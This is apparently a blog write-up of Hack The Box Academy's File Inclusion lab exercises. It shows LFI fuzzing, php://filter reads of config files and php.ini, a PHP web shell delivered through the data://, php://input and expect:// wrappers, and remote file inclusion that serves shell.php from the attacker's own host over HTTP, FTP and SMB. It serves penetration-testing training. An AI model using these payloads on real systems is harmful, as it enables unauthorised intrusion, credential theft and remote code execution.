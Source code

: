 ```yaml
---
layout: post
title:  "Hack The Box - Academy - File Inclusion"
description: "Explore this detailed walkthrough of Hack The Box Academy's File Inclusion module. Learn effective techniques to perform Local file inclusion (LFI), Remote File Inclusion (RFI) and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-11-28 21:05
image:  /images/htb/file-inclusion/logo.png
tags:   [lfi,rfi,cbbh]
categories: [htbacademy]
---
```


## Explore this detailed walkthrough of Hack The Box Academy's File Inclusion module. Learn effective techniques to perform Local file inclusion (LFI), Remote File Inclusion (RFI)

>
<b>References:</b>
<br/>
<a href="https://academy.hackthebox.com/module/23/section/250">HTB - File Inclusion</a><br/>
<a href="https://jacozwarts.github.io/images/htb/file-inclusion/File_Inclusion_Module_Cheat_Sheet.pdf">HTB - File Inclusion - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md">PayLoadsAllTheThings - File inclusion</a><br/>
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion">HackTricks - File inclusion</a><br/>




## Basic Bypasses - Exercise
> The web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt

### Set Up the LFI Wordlist
```
sudo apt install seclists
```

We’ll use the `LFI-Jhaddix.txt` wordlist, found at:
```
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```

This list includes paths that can reveal LFI vulnerabilities in web applications.

### Send the Request to Caido Automate

Mark the Payload Position: Send the request to Caido’s Automate tool and highlight the `es.php` part of the path as the payload position.

### Configure Payload Settings
Open the `Payload Tab`: Click on the `Payload` tab on the right side of the Automate interface.
Choose Payload Type: Select `Simple List` as the payload type.
Load the LFI Wordlist: Point to the `LFI-Jhaddix.txt` path in your system, and load it as the payload list.

![Caido - LFI Automate](/images/htb/file-inclusion/basic-bypass-exercise-caido-automate.png)

### Adjust Preprocessors
Disable URL Encoding: Go to the `Preprocessors` tab and remove the `URL Encode` option. This ensures our payloads are sent exactly as they appear in the wordlist, which is essential for LFI testing.

### Increase Worker Count
Optimize Worker Settings: In the settings section, increase the number of workers to speed up the testing process by sending multiple requests in parallel.

### Filter Results by Response Length
After Caido completes sending requests:

Apply a `Length Filter`: Look through the responses for any with a length of `3833`, as this indicates a file or directory was successfully accessed, pointing to a potential LFI vulnerability.

![Caido - LFI Automate Result](/images/htb/file-inclusion/basic-bypass-exercise-caido-result.png)

## PHP Filters - Exercise
> Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

We'll use the `directory-list-2.3-small.txt` wordlist from the SecLists to perform web content discovery.

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
![Ffuf - Content Discovery](/images/htb/file-inclusion/php-filters-ffuf-result.png)

After identifying the PHP file, we'll use the php://filter stream wrapper to encode the file's content in Base64 format. Replace {PHP_PAGE} with the name of the discovered PHP file:

```
php://filter/read=convert.base64-encode/resource={PHP_PAGE}
```

![PHP Filter Extract Source Code](/images/htb/file-inclusion/php-filters-base64-result.png)

We'll use Caido's built in Base-64 decode tool to decode the payload and read the database password.

![Extract database password](/images/htb/file-inclusion/php-filter-result.png)

## PHP Wrappers - Exercise

> Try to gain RCE using one of the PHP wrappers and read the flag at /

We'll read the php.ini file to check if `allow_url_include` is enable for us to use the [php data wrapper](https://www.php.net/manual/en/wrappers.data.php)

We'll use the below payload to read the `php.ini` file:

```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/apache2/php.ini
```

For `Nginx`:

```
php://filter/read=convert.base64-encode/resource=../../../..//etc/php/X.Y/fpm/php.ini
```

Different php wrappers to use:


- data:// (GET)

```
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'
```

![Data php warpper](/images/htb/file-inclusion/php-wrappers-data.png)
- php://input (POST)

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

![Input php warpper](/images/htb/file-inclusion/php-wrappers-input.png)
- expect:// (GET)

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## Remote File Inclusion (RFI)

> Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

### HTTP

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```
sudo python3 -m http.server <LISTENING_PORT>
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

![RFI HTTP Result](/images/htb/file-inclusion/rfi-http-result.png)

### FTP

```
sudo python -m pyftpdlib -p 21
```

I ran into the following issue when trying to use pyftdlib: `/usr/bin/python: No module named pyftpdlib`

```
sudo apt-get install python3-pyftpdlib
```

![RFI FTP Result](/images/htb/file-inclusion/rfi-ftp-result.png)

### SMB

```
impacket-smbserver -smb2support share $(pwd)
```

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

## LFI and File Uploads

> Use any of the techniques covered in this section to gain RCE and read the flag at /